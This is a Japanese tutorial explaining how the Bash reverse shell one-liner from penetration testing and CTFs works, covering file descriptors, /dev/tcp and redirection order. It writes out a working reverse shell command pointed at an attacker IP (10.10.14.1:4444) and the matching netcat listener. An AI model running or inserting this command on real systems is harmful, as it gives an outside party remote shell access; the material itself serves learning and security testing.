




ペネトレーションテストやCTFでよく使われるBashリバースシェルのコマンドを詳しく解説します。

## 基本コマンド

```bash
bash -i >& /dev/tcp/<攻撃者IP>/<ポート番号> 0>&1
```

---

## コマンド構成

| 部分                 | 役割                               |
| -------------------- | ---------------------------------- |
| `bash -i`            | インタラクティブモードでシェル起動 |
| `>&`                 | stdout/stderrを同時にリダイレクト  |
| `/dev/tcp/host/port` | Bash疑似デバイスでTCP接続確立      |
| `0>&1`               | stdinをstdoutと同じ先に複製        |

---

## 動作の全体像



---

## ファイルディスクリプタ（fd）

Unixでは、すべての入出力がファイルディスクリプタで管理されます。

| fd  | 名前   | 役割                   |
| --- | ------ | ---------------------- |
| 0   | stdin  | 標準入力（キーボード） |
| 1   | stdout | 標準出力（画面）       |
| 2   | stderr | 標準エラー出力         |

---

## TCP接続の双方向性

TCPソケットは1本の接続で**送信も受信もできます**。



| 操作              | 結果                                 |
| ----------------- | ------------------------------------ |
| `>& /dev/tcp/...` | fd1, fd2 → TCP接続（送信方向を使う） |
| `0>&1`            | fd0 → TCP接続（受信方向を使う）      |

`0>&1` は「ターゲットのstdinを、TCP接続の受信側に繋ぐ」ということです。攻撃者が `nc` でタイプした文字は、TCP接続を通じてターゲットの fd0 に届きます。

---

## リダイレクト処理の流れ

コマンドは**左から右へ**順番に評価されます。



| Step | 実行内容          | fd0  | fd1  | fd2  |
| ---- | ----------------- | ---- | ---- | ---- |
| 1    | 初期状態          | 端末 | 端末 | 端末 |
| 2    | `>& /dev/tcp/...` | 端末 | TCP  | TCP  |
| 3    | `0>&1`            | TCP  | TCP  | TCP  |

---

## 各部分の詳細

### `bash -i`

`-i` オプションでインタラクティブモードを強制します。

| 機能           | 説明                |
| -------------- | ------------------- |
| プロンプト表示 | PS1に基づく表示     |
| ジョブ制御     | Ctrl+Z, bg, fg など |
| ヒストリ       | コマンド履歴の記録  |
| エイリアス     | .bashrcの設定が有効 |

### `/dev/tcp/host/port`

Bash固有の**疑似デバイス**です。ファイルシステム上には存在しません。

```bash
# 実際には存在しない
ls -l /dev/tcp
# ls: cannot access '/dev/tcp': No such file or directory
```

Bashがこのパス形式を認識すると、内部でソケットを作成してTCP接続を確立します。

> **注意**: sh, dash, zsh など他のシェルでは動作しません。

### `>&` 演算子

`>&` の後に続くものによって動作が異なります。

#### 1. `>&word` の形式（wordがファイル名の場合）

stdout と stderr の両方を同じファイルにリダイレクトします。

```bash
# 以下は等価
command >& file
command &> file
command > file 2>&1
```

今回のリバースシェルはこのケースに該当します：

```bash
bash -i >& /dev/tcp/10.10.14.1/4444
# ↓ 等価
bash -i > /dev/tcp/10.10.14.1/4444 2>&1
```

#### 2. `n>&m` の形式（mが数字の場合）

fd n を fd m の複製にします。

```bash
# fd 2 を fd 1 と同じ先に向ける
command 2>&1
```

#### 判別方法

| `>&` の直後     | 動作                                |
| --------------- | ----------------------------------- |
| ファイル名/パス | stdout と stderr を両方リダイレクト |
| 数字            | fd の複製（dup2）                   |

### `0>&1`

標準入力を、標準出力と同じ先（TCP接続）に向けます。

内部的には `dup2(1, 0)` システムコールが実行されます。

---

## 実行手順

### 1. 攻撃者側で待ち受け

```bash
nc -lvp 4444
```

### 2. ターゲットで実行

```bash
bash -i >& /dev/tcp/10.10.14.1/4444 0>&1
```

### 3. 接続確立

攻撃者のターミナルでターゲットのシェルを操作できるようになります。

---

## まとめ



| 順序 | コマンド部分       | 役割              |
| ---- | ------------------ | ----------------- |
| 1    | `bash -i`          | 対話モード起動    |
| 2    | `>&`               | stdout/stderr転送 |
| 3    | `/dev/tcp/IP/PORT` | TCP接続確立       |
| 4    | `0>&1`             | stdin転送         |

このコマンドは、Bashの疑似デバイス機能とリダイレクト演算子を組み合わせて、すべての入出力を攻撃者マシンへのTCP接続に向けることで、リモートからの対話的なシェル操作を実現しています。
